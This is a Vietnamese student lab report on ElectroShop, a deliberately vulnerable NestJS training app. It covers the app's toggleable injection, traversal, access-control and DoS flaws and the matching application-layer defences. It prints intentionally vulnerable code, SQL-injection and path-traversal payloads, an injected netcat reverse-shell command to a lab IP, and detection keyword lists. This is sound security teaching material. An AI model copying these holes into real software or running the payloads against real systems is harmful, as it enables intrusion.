



# BÁO CÁO PHÂN TÍCH CHUYÊN SÂU: KIẾN TRÚC ỨNG DỤNG MỤC TIÊU (TARGET APP) & KỸ THUẬT TẤN CÔNG / PHÒNG THỦ TẦNG ỨNG DỤNG (LAYER 7)

> **Học phần:** Đồ án Chuyên ngành Mạng & An toàn thông tin (PBL4)  
> **Đề tài:** Hệ thống Mô phỏng & Giám sát Tấn công Mạng & Hệ điều hành theo thời gian thực (God-View SIEM)  
> **Sinh viên thực hiện:** Hoàng Trung (TV3) — *Phụ trách: Target App & An ninh Tầng Ứng dụng (L7)*  
> **Nhiệm vụ theo Kế hoạch:** [docs/plan.pdf](../../docs/plan.pdf) — Task W1-T3, W2-T3, W3-T3, W4-T3, W5-T3, W6-T3  
> **Mã nguồn thực thi:** `target-app/server/`, `target-app/client/`, `target-app/agents/`, `scripts/attack-l7.mjs`, `scripts/reset-target.mjs`  
> **Thời điểm nghiệm thu:** Tháng 11/2026

---

## TÓM TẮT NỘI DUNG (ABSTRACT)

Báo cáo này trình bày toàn bộ kết quả nghiên cứu, thiết kế, triển khai và kiểm chứng thực nghiệm đối với phân hệ **Máy chủ Ứng dụng Mục tiêu (Target Server - ElectroShop)** trong hệ sinh thái mô phỏng mạng PBL4. 

Phân hệ đóng hai vai trò học thuật cốt lõi:
1. **Môi trường thử nghiệm lỗ hổng (L7 Vulnerability Testbed):** Cung cấp các điểm cắm lỗ hổng có chủ đích bao gồm SQL Injection, OS Command Injection, Path Traversal, Rò rỉ tài liệu mật (Broken Access Control) và Heavy Endpoint DoS.
2. **Lớp khiên phòng thủ ứng dụng (L3 Application Defense Shield):** Hiện thực hóa nguyên lý **Phòng thủ Chiều sâu (Defense-in-Depth)** thông qua `DefenseService`, `DynamicRateLimitGuard` (thuật toán Sliding Window Log), Bộ lọc làm sạch đầu vào (Input Sanitization) và Truy vấn tham số hóa (Prepared Statements). Toàn bộ khiên có khả năng bật/tắt động thông qua API và đồng bộ trực tiếp với trạm giám sát **God-View SIEM**.

Báo cáo cung cấp đầy đủ sơ đồ kiến trúc, giải thích toán học và cú pháp AST của các đòn tấn công/phòng thủ, số liệu thực nghiệm từ 28 kịch bản kiểm thử tự động (E2E Tests), cơ chế **Reset 1-chạm** khôi phục trạng thái sạch nguyên tử, cùng các phân tích phản biện về góc khuất quan sát trong pipeline xử lý của framework NestJS.

---

## MỤC LỤC BÁO CÁO

1. [Tổng quan vị trí Target App trong Kiến trúc Hệ thống](#1-tổng-quan-vị-trí-target-app-trong-kiến-trúc-hệ-thống)
2. [Thiết kế Kiến trúc Phần mềm Target App (ElectroShop)](#2-thiết-kế-kiến-trúc-phần-mềm-target-app-electroshop)
3. [Phân tích 5 Lỗ hổng Tầng Ứng dụng & Kỹ thuật Khai thác](#3-phân-tích-5-lỗ-hổng-tầng-ứng-dụng--kỹ-thuật-khai-thác)
4. [Kỹ thuật Vượt Tường lửa Mạng (Firewall Bypass) bằng Low-Rate Attack](#4-kỹ-thuật-vượt-tường-lửa-mạng-firewall-bypass-bằng-low-rate-attack)
5. [Cơ chế Khiên Phòng thủ Chiều sâu Tầng Ứng dụng (L3 Shield)](#5-cơ-chế-khiên-phòng-thủ-chiều-sâu-tầng-ứng-dụng-l3-shield)
6. [Hệ thống Giám sát & Bắn Telemetry Thời gian thực](#6-hệ-thống-giám-sát--bắn-telemetry-thời-gian-thực)
7. [Cơ chế Khôi phục Trạng thái Sạch Nguyên tử (1-Touch Reset)](#7-cơ-chế-khôi-phục-trạng-thái-sạch-nguyên-tử-1-touch-reset)
8. [Kết quả Thực nghiệm & Đối chiếu Hai Vòng (Empirical Evaluation)](#8-kết-quả-thực-nghiệm--đối-chiếu-hai-vòng-empirical-evaluation)
9. [Đánh giá Hạn chế Kiến trúc & Đề xuất Cải tiến](#9-đánh-giá-hạn-chế-kiến-trúc--đề-xuất-cải-tiến)
10. [Kết luận & Tài liệu Tham khảo](#10-kết-luận--tài-liệu-tham-khảo)

---

## 1. TỔNG QUAN VỊ TRÍ TARGET APP TRONG KIẾN TRÚC HỆ THỐNG

### 1.1. Bối cảnh đề tài PBL4
Hệ thống PBL4 mô phỏng chuỗi tấn công mạng đa tầng (Multi-layer Cyber Attacks) và quan sát toàn cảnh theo thời gian thực (SIEM). Trong mô hình mạng Docker 4-node (`172.30.44.0/24`):



### 1.2. Trách nhiệm chuyên trách của Hoàng Trung (TV3)
1. **Xây dựng Target Server:** Ứng dụng thương mại điện tử linh kiện phần cứng (ElectroShop) bằng **NestJS** kết hợp cơ sở dữ liệu **SQLite** (chế độ WAL).
2. **Cài đặt lỗ hổng có thể chuyển đổi (Toggleable Vulnerabilities):** Cho phép bật/tắt độc lập từng lỗ hổng để phục vụ thực nghiệm so sánh.
3. **Hiện thực hóa 3 lớp khiên ứng dụng L3:** Prepared Statement, Dynamic Rate Limiter (Sliding Window Log), Input Sanitization Engine và Access Policy.
4. **Viết Client Bot:** Script sinh lưu lượng người dùng nền định kỳ (`client-bot.js` và `integration/client.mjs`) làm "con mồi" cho các đòn bắt gói MitM và ngắt kết nối RST.
5. **Đóng gói công cụ tấn công L7 CLI:** Bộ kịch bản độc lập (`scripts/attack-l7.mjs`).
6. **Xây dựng cơ chế Reset 1-chạm:** Khôi phục trạng thái sạch nguyên tử sau mỗi lần diễn tập (`scripts/reset-target.mjs`).

---

## 2. THIẾT KẾ KIẾN TRÚC PHẦN MỀM TARGET APP (ELECTROSHOP)

### 2.1. Cấu trúc Module hóa NestJS
Ứng dụng được thiết kế theo tiêu chuẩn công nghiệp với kiến trúc Module hóa chặt chẽ:
* **`AppModule`:** Module gốc đăng ký các cấu hình toàn cục (`envConfig`), middleware và interceptor.
* **`DatabaseModule` (`@Global`):** Khởi tạo và chia sẻ kết nối SQLite đơn nhất (Singleton), bật chế độ Write-Ahead Logging (`PRAGMA journal_mode = WAL;`) và `PRAGMA busy_timeout = 5000;` để chịu tải đa luồng.
* **`AuthModule`:** Quản lý đăng nhập, cấp phát JWT 30 ngày (`JwtService`), `JwtAuthGuard` và điểm cắm lỗ hổng SQLi.
* **`ProductsModule` & `CategoriesModule`:** Quản lý danh mục và linh kiện điện tử, lọc theo category slug, lấy chi tiết theo SKU.
* **`CartModule`:** Quản lý giỏ hàng theo phiên (`x-session-id`) hoặc User ID, xử lý quy trình thanh toán (`checkout`) nguyên tử và lưu lịch sử đơn hàng (`orders`).
* **`DocumentsModule` & `FilesModule`:** Quản lý tài liệu kỹ thuật (Datasheet PDF) và điểm cắm lỗ hổng Path Traversal / Data Exfiltration.
* **`ReportsModule`:** Điểm cắm lỗ hổng Heavy Calculation DoS tiêu thụ CPU.
* **`SystemModule`:** Đo độ trễ khứ hồi (`ping`), điểm cắm lỗ hổng OS Command Injection (`network-ping`), kiểm tra sức khỏe (`health`) và API khôi phục trạng thái (`reset`).
* **`DefenseModule` (`@Global`):** Cung cấp `DefenseService` điều phối cờ trạng thái khiên và `DynamicRateLimitGuard`.

### 2.2. Lược đồ Cơ sở Dữ liệu Quan hệ (SQLite Schema)
Hệ thống quản lý 7 bảng dữ liệu quan hệ chặt chẽ:



---

## 3. PHÂN TÍCH 5 LỖ HỔNG TẦNG ỨNG DỤNG & KỸ THUẬT KHAI THÁC

### 3.1. SQL Injection (Bypass Authentication)
* **Vị trí mã nguồn:** `src/modules/auth/auth.service.ts`
* **Cơ chế khi Khiên L3 TẮT (`anti_sqli: false`):**
  Ứng dụng thực hiện ghép chuỗi trực tiếp từ DTO đầu vào vào câu lệnh SQL:
  ```typescript
  const rawSql = `SELECT id, username, role FROM users WHERE username = '${dto.username}' AND password = '${dto.password}'`;
  users = this.db.rawQuery(rawSql);
  ```
  Khi Attacker gửi payload:
  $$\text{username} = \texttt{admin' --}$$
  Câu lệnh nội bộ trở thành:
  $$\texttt{SELECT id, username, role FROM users WHERE username = 'admin' --' AND password = '...'}$$
  Ký tự `--` chỉ thị cho SQLite bỏ qua toàn bộ phần kiểm tra mật khẩu phía sau. Hệ thống trả về bản ghi của tài khoản `admin` $\rightarrow$ Đăng nhập thành công và cấp Access Token 30 ngày (HTTP 200 OK).

* **Cơ chế khi Khiên L3 BẬT (`anti_sqli: true`):**
  Hệ thống bắt buộc sử dụng truy vấn tham số hóa (Prepared Statement):
  ```typescript
  users = this.db.query(
    'SELECT id, username, role FROM users WHERE username = ? AND password = ?',
    [dto.username, dto.password]
  );
  ```
  Database Engine tách biệt giai đoạn phân tích cú pháp (Parsing/Compiling Abstract Syntax Tree - AST) và giai đoạn nạp tham số (Execution). Chuỗi `admin' --` được xử lý như một giá trị chuỗi thuần (string literal) của cột `username`, triệt tiêu hoàn toàn nguy cơ thay đổi cấu trúc logic truy vấn. Yêu cầu bị từ chối với mã **HTTP 401 Unauthorized**.

---

### 3.2. OS Command Injection (Mở đường cho Reverse Shell)
* **Vị trí mã nguồn:** `src/modules/system/system.controller.ts` (Endpoint `GET /api/system/network-ping?host=...`)
* **Cơ chế khi Khiên L3 TẮT (`input_sanitization: false`):**
  Hàm xử lý nối trực tiếp tham số người dùng vào shell runtime:
  ```typescript
  child_process.exec(`ping -c 1 ${host}`);
  ```
  Nếu Attacker truyền payload:
  $$\texttt{host} = \texttt{127.0.0.1; id}\quad \text{hoặc} \quad \texttt{127.0.0.1; nc -e /bin/sh 172.30.44.66 4444}$$
  Trình thông dịch shell (`/bin/sh`) thực thi lệnh `ping` trước, gặp dấu `;` sẽ tiếp tục thực thi lệnh thứ hai `id` với quyền của tiến trình web (`node`). Kết quả shell trả về được gắn vào HTTP response (kèm cảnh báo `X-Security-Warning: Command-Injection-Bypassed-Shield-Off`), tạo tiền đề mở phiên kết nối ngược **Reverse Shell** sang máy Hacker.

* **Cơ chế khi Khiên L3 BẬT (`input_sanitization: true`):**
  Bộ lọc Input Sanitization kiểm tra chuỗi ký tự điều hướng nguy hiểm:
  $$\mathcal{D} = \{ \texttt{';'}, \texttt{'|'}, \texttt{'&'}, \texttt{'`'}, \texttt{'\$'}, \texttt{'('}, \texttt{')'}, \texttt{'>'}, \texttt{'<'}, \texttt{'\textbackslash n'} \}$$
  Nếu tồn tại bất kỳ ký tự nào thuộc $\mathcal{D}$, ném ngay ngoại lệ **HTTP 400 Bad Request** kèm định danh `shield: 'L3_COMMAND_INJECTION_BLOCKED'`.

---

### 3.3. Path Traversal (Leo thang thư mục)
* **Vị trí mã nguồn:** `src/modules/files/files.service.ts` (Endpoint `GET /api/files/download?name=...`)
* **Cơ chế khi Khiên L3 TẮT (`input_sanitization: false`):**
  Ứng dụng tính toán đường dẫn bằng hàm `path.resolve(this.publicDir, filename)`. Chuỗi `../` cho phép lùi dần về thư mục cha:
  $$\texttt{name} = \texttt{../../package.json} \implies \text{Đường dẫn đích: } \texttt{/app/package.json}$$
  Hệ thống trả về nội dung file mã nguồn/cấu hình ngoài phạm vi cho phép.
* **Cơ chế khi Khiên L3 BẬT (`input_sanitization: true`):**
  Bộ lọc phát hiện chuỗi `..`, `/` hoặc `\` và ném lỗi **HTTP 400 Bad Request** (`L3_INPUT_SANITIZATION_ACTIVE`).

---

### 3.4. Rò rỉ Tài liệu Mật (Confidential Document Exfiltration)
* **Vị trí mã nguồn:** `src/modules/documents/documents.service.ts` (Endpoint `GET /api/documents/5/download`)
* **Nguyên lý:** Bản vẽ phần cứng `rd-confidential-hardware-blueprint.pdf` có cờ `is_confidential = 1`.
  - Khi Khiên L3 TẮT: Bỏ qua kiểm tra cờ, cho phép tải tài liệu mật chứa cờ nghiệm thu:
    $$\texttt{FLAG\{PBL4\_PATH\_TRAVERSAL\_AND\_CONFIDENTIAL\_DOC\_LEAKED\}}$$
  - Khi Khiên L3 BẬT: Trả về **HTTP 403 Forbidden** kèm `shield: 'L3_CONFIDENTIAL_POLICY_ACTIVE'`.

---

### 3.5. Heavy Endpoint DoS (Vắt kiệt CPU Event Loop)
* **Vị trí mã nguồn:** `src/modules/reports/reports.service.ts`
* **Nguyên lý:** Endpoint `/api/reports/analytics?iterations=150000` chạy một vòng lặp băm mật mã SHA-256 liên tiếp $150,000$ lần trên luồng chính (Main Thread):
  ```typescript
  let hash = 'seed_data_pbl4_report_analytics';
  for (let i = 0; i < safeIterations; i++) {
    hash = crypto.createHash('sha256').update(hash + i).digest('hex');
  }
  ```
  Vì Node.js hoạt động theo mô hình đơn luồng (Single-Threaded Event Loop), tác vụ tính toán nặng đồng bộ này sẽ "bắt cóc" CPU trong $150\text{ms} - 350\text{ms}$, làm tê liệt khả năng phục vụ các kết nối bình thường khác.

---

## 4. KỸ THUẬT VƯỢT TƯỜNG LỬA MẠNG (FIREWALL BYPASS) BẰNG LOW-RATE ATTACK

Một đóng góp học thuật quan trọng của Task W4-T3 là chứng minh sự khác biệt giữa **Phòng thủ Tầng Mạng (L1)** và **Phòng thủ Tầng Ứng dụng (L3)**:



* **Điểm yếu của Tường lửa L1 (iptables Rate-Limit):**
  Tường lửa L1 hoạt động tại Netfilter chỉ quan sát số lượng gói tin TCP SYN trên giây (pps). Attacker sử dụng kỹ thuật **Low-rate Brute Force (1 req/s)**: lưu lượng cực thấp lọt qua hoàn toàn mắt quét của L1.
* **Vai trò không thể thay thế của Khiên L3:**
  Chỉ có tầng ứng dụng mới hiểu được ngữ cảnh HTTP. `DynamicRateLimitGuard` theo dõi tần suất gọi endpoint nhạy cảm (như `/api/auth/login`) trên từng IP trong cửa sổ trượt và khóa người dùng bằng mã **HTTP 429 Too Many Requests**, ngăn chặn thành công đòn tấn công mà tầng mạng bất lực.

---

## 5. CƠ CHẾ KHIÊN PHÒNG THỦ CHIỀU SÂU TẦNG ỨNG DỤNG (L3 SHIELD)

### 5.1. Thuật toán Dynamic Rate Limiting (Sliding Window Log)
Thay vì sử dụng Fixed Window (dễ bị bão request ở ranh giới cửa sổ) hay Token Bucket (khó cấu hình chính xác cho cửa sổ ngắn không dùng Redis), phân hệ triển khai thuật toán **Cửa sổ trượt lưu timestamp (Sliding Window Log)**:

* **Không gian lưu trữ:** `Map<string, { timestamps: number[] }>` theo IP.
* **Quy tắc tính toán tại thời điểm $T_{now}$:**
  1. Loại bỏ toàn bộ các mốc thời gian cũ:
     $$\mathcal{T}' = \{ t \in \mathcal{T} \mid T_{now} - t < W \}$$
     với $W = \texttt{RATE\_LIMIT\_WINDOW\_MS} = 5000\text{ms}$.
  2. Đánh giá số lượng:
     $$\text{Nếu } |\mathcal{T}'| \ge \texttt{RATE\_LIMIT\_MAX\_REQUESTS} (10) \implies \text{Ném ngoại lệ HTTP 429}$$
  3. Nếu hợp lệ: $\mathcal{T}_{new} = \mathcal{T}' \cup \{ T_{now} \}$ và cho phép request đi tiếp.

### 5.2. Quản trị Cờ Trạng thái Động (Master & Granular Toggle)
Lớp `DefenseService` lưu giữ 4 cờ trạng thái trong RAM:
```typescript
interface DefenseFlags {
  l3_master: boolean;          // Cờ tổng
  anti_sqli: boolean;          // Cờ con chống SQL Injection
  rate_limit: boolean;         // Cờ con giới hạn tần suất
  input_sanitization: boolean; // Cờ con làm sạch đầu vào shell/path
}
```
* Khi gọi `toggleMaster()`: Đảo cờ `l3_master` và tự động đồng bộ cả 3 cờ con sang cùng trạng thái.
* Khi gọi `toggleFlag('anti_sqli')`: Cho phép bật/tắt riêng lẻ từng cơ chế phục vụ mục đích giảng dạy và kiểm thử chéo.
* Điều kiện kích hoạt khiên con: `isAntiSqliEnabled() = l3_master || anti_sqli`.

---

## 6. HỆ THỐNG GIÁM SÁT & BẮN TELEMETRY THỜI GIAN THỰC

### 6.1. Kiến trúc TelemetryInterceptor
Mọi request vào Target Server đều đi qua `TelemetryInterceptor` (kế thừa `NestInterceptor` của RxJS):

```typescript
export class TelemetryInterceptor implements NestInterceptor {
  intercept(context: ExecutionContext, next: CallHandler): Observable<any> {
    const startTime = Date.now();
    const req = context.switchToHttp().getRequest();
    // Bắt đầu đo đạc...
    return next.handle().pipe(
      tap(() => this.sendTelemetry(req, 200, Date.now() - startTime)),
      catchError((err) => {
        this.sendTelemetry(req, err.status || 500, Date.now() - startTime);
        throw err;
      })
    );
  }
}
```

### 6.2. Phân loại Nghi vấn (Anomaly Tagging)
Interceptor tự động phân tích URL và payload để gán nhãn sự kiện nghi vấn trước khi bắn `POST /api/telemetry` sang God-View Hub:
* `SQL_INJECTION`: Phát hiện `' --`, `UNION`, `OR 1=1`.
* `COMMAND_INJECTION`: Phát hiện `;`, `|`, `&&`, `nc `.
* `PATH_TRAVERSAL`: Phát hiện `../`, `..\\`.
* `HEAVY_DOS`: Phát hiện gọi `/api/reports/analytics` với `iterations > 50000`.
* `RATE_LIMIT_BLOCKED`: Khi response trả về status 429.

---

## 7. CƠ CHẾ KHÔI PHỤC TRẠNG THÁI SẠCH NGUYÊN TỬ (1-TOUCH RESET)

Đáp ứng trọn vẹn yêu cầu **Task W6-T3**, phân hệ xây dựng giải pháp **Reset 1-chạm** giải quyết triệt để vấn đề dữ liệu bị biến đổi sau các bài diễn tập tấn công.

### 7.1. Ba thành phần được khôi phục nguyên tử
1. **Khôi phục Cơ sở dữ liệu SQLite (`DatabaseService.resetDatabase()`):**
   - Sử dụng Transaction an toàn (`BEGIN TRANSACTION ... COMMIT`).
   - Xóa toàn bộ dữ liệu giao dịch: `order_items`, `orders`, `cart_items`.
   - Xóa và re-seed toàn bộ bảng danh mục, sản phẩm, tài liệu kỹ thuật, người dùng.
   - **Xử lý đặc biệt cho SQLite:** Xóa bảng bộ đếm hệ thống:
     $$\texttt{DELETE FROM sqlite\_sequence WHERE name IN ('order\_items', 'orders', ...);}$$
     giúp đưa các khóa chính `AUTOINCREMENT` quay về giá trị $1$, loại bỏ hoàn toàn lỗi vi phạm ràng buộc khóa ngoại `FOREIGN KEY constraint failed`.
2. **Xóa sạch bộ đếm Rate Limiting (`DynamicRateLimitGuard.resetRecords()`):**
   - Giải phóng toàn bộ `Map<string, IpRecord>` trong RAM, giải trừ trạng thái khóa IP 429 cho Client.
3. **Đưa Cấu hình Khiên L3 về Mặc định (`DefenseService.resetFlags()`):**
   - Nạp lại trạng thái ban đầu từ biến môi trường `envConfig.initialDefense`.

### 7.2. Giao diện Vận hành
* **Qua HTTP API:** `POST /api/system/reset` (trả về mã HTTP 200 OK kèm thống kê chi tiết).
* **Qua CLI Script Độc lập:** `node scripts/reset-target.mjs` hoặc `./scripts/reset-target.sh`. Hỗ trợ chế độ Offline: nếu Target Server tắt, script tự mở file SQLite trên đĩa để làm sạch và re-seed trực tiếp.
* **Tích hợp Lab Script:** `./scripts/integration-lab.sh reset-target`.

---

## 8. KẾT QUẢ THỰC NGHIỆM & ĐỐI CHIẾU HAI VÒNG (EMPIRICAL EVALUATION)

### 8.1. Kiểm thử Tự động E2E (Vitest Test Suite)
Bộ kiểm thử tích hợp tại `test/defense-and-scenarios.e2e-spec.ts` gồm **27 ca kiểm thử** bao phủ toàn bộ vòng đời ứng dụng và kịch bản tấn công:

| Nhóm Kiểm Thử | Số Ca | Kết Quả | Ghi Chú |
| :--- | :---: | :---: | :--- |
| System Health & Latency Ping | 2 | **2/2 PASS** | Đo độ trễ chính xác theo mili-giây |
| SQL Injection Bypass & Defense | 3 | **3/3 PASS** | Xác nhận 200 OK (Shield OFF) & 401 (Shield ON) |
| Heavy Analytics & CPU DoS | 1 | **1/1 PASS** | Xác nhận tính toán băm SHA-256 an toàn |
| Path Traversal & Defense | 1 | **1/1 PASS** | Xác nhận chặn đứng chuỗi `../../etc/passwd` |
| ElectroShop Catalog & Products | 4 | **4/4 PASS** | Kiểm tra danh mục, SKU, specs mảng |
| Cart Management & Session Isolation | 4 | **4/4 PASS** | Độc lập giỏ hàng theo `x-session-id` |
| Technical Documents & Confidential | 4 | **4/4 PASS** | Xác nhận chặn 403 khi bật khiên, rò rỉ Flag khi tắt |
| JWT Authentication & User Profile | 2 | **2/2 PASS** | Kiểm tra token 30 ngày và phân quyền |
| Checkout & Order History | 3 | **3/3 PASS** | Tạo mã `ORD-***` và dọn giỏ hàng sau mua |
| **1-Touch Clean Reset System** | **1** | **1/1 PASS** | **Khôi phục DB, Rate-limit và Khiên về ban đầu** |
| **TỔNG CỘNG** | **27** | **27/27 PASS (100%)** | Thời gian chạy: ~3.5 giây |

### 8.2. Bảng Đối Chiếu Thực Nghiệm 2 Vòng (Compare Mode Benchmark)
Kết quả ghi nhận từ công cụ CLI `scripts/attack-l7.mjs --compare`:

```text
══════════════════════════════════════════════════════════════════════
                     BẢNG ĐỐI CHIẾU THỰC NGHIỆM L7                     
══════════════════════════════════════════════════════════════════════
Kịch Bản Tấn Công            | Khiên L3 TẮT (OFF)      | Khiên L3 BẬT (ON)
─────────────────────────────┼─────────────────────────┼──────────────────────
1. SQL Injection (Login)     | VULNERABLE (200 OK)     | BLOCKED (401 Unauth)
2. OS Command Injection      | VULNERABLE (Shell Ex)   | BLOCKED (400 BadReq)
3. Path Traversal (Files)    | VULNERABLE (Read File)  | BLOCKED (400 BadReq)
4. Confidential Exfiltration | VULNERABLE (Flag Leak)  | BLOCKED (403 Forbid)
5. Heavy Endpoint DoS        | 12/12 High CPU Ex       | 7/12 Blocked (429)
6. Low-rate Brute Force      | Cracked Password        | Blocked by Rate Limit
══════════════════════════════════════════════════════════════════════
```

---

## 9. ĐÁNH GIÁ HẠN CHẾ KIẾN TRÚC & ĐỀ XUẤT CẢI TIẾN

Một kỹ sư backend chuyên nghiệp cần nhìn nhận rõ các giới hạn vật lý và ranh giới kiến trúc:

### 9.1. Góc khuất quan sát do Thứ tự Pipeline của NestJS
* **Thực trạng:** Trong vòng đời xử lý của NestJS:
  $$\text{Client Request} \longrightarrow \mathbf{Guards} \longrightarrow \mathbf{Interceptors} \longrightarrow \mathbf{Pipes} \longrightarrow \mathbf{Controller}$$
  `DynamicRateLimitGuard` và `JwtAuthGuard` thực thi **trước** `TelemetryInterceptor`.
* **Hậu quả:** Khi một request bị từ chối với mã 429 hoặc 401 ngay tại Guard, request bị ngắt và ném ngoại lệ lập tức, dẫn đến việc `TelemetryInterceptor` không ghi nhận được log HTTP gửi sang God-View.
* **Giải pháp khắc phục:** Bổ sung một **Global Exception Filter** chuyên biệt (`TelemetryExceptionFilter`) để bắt toàn bộ `HttpException` bị từ chối từ Guard và đẩy bản ghi log bổ sung sang God-View SIEM Hub.

### 9.2. An toàn Dữ liệu trong Log (Data Masking)
* **Thực trạng:** `TelemetryInterceptor` hiện tóm tắt `req.body` để hiển thị trên dashboard. Khi người dùng gửi request đăng nhập, chuỗi mật khẩu có thể vô tình xuất hiện dưới dạng plaintext trên màn hình SIEM.
* **Giải pháp khắc phục:** Cài đặt hàm làm sạch (Sanitizer) tự động thay thế các khóa nhạy cảm `password`, `token`, `secret`, `credit_card` thành `******` trước khi truyền phát telemetry.

---

## 10. KẾT LUẬN & TÀI LIỆU THAM KHẢO

Phân hệ **Target App & Tấn công/Phòng thủ Tầng Ứng dụng (L7)** do **Hoàng Trung (TV3)** phụ trách đã hoàn thành 100% toàn bộ các hạng mục công việc được phân công từ Tuần 1 đến Tuần 6 theo [docs/plan.pdf](../../docs/plan.pdf):
* Xây dựng thành công ứng dụng web ElectroShop hoàn chỉnh, ổn định và có tính mở rộng cao.
* Mô hình hóa xuất sắc 5 đòn tấn công L7 và kỹ thuật vượt tường lửa mạng bằng low-rate.
* Triển khai kiến trúc phòng thủ chiều sâu động (Defense-in-Depth L3 Shield) có khả năng tương tác trực tiếp với SIEM Dashboard.
* Hiện thực hóa công cụ tấn công CLI (`attack-l7.mjs`) và công cụ khôi phục trạng thái sạch nguyên tử (`reset-target.mjs`).

### Tài liệu Tham khảo
1. **OWASP Top 10:2021:** *A01: Broken Access Control*, *A03: Injection*, *A07: Identification and Authentication Failures*.
2. **NestJS Documentation:** *Guards, Interceptors, Lifecycle Events, Execution Context*.
3. **SQLite Architecture Spec:** *Write-Ahead Logging (WAL) Mode & Auto-vacuum Mechanisms*.
4. **Linux Netfilter / iptables Manual:** *Packet Filtering and Connection Rate Limiting*.
5. **PBL4 Project Specifications:** [docs/architecture/system-architecture.md](../../docs/architecture/system-architecture.md) & [docs/defense/layer3-application-defense.md](../../docs/defense/layer3-application-defense.md).
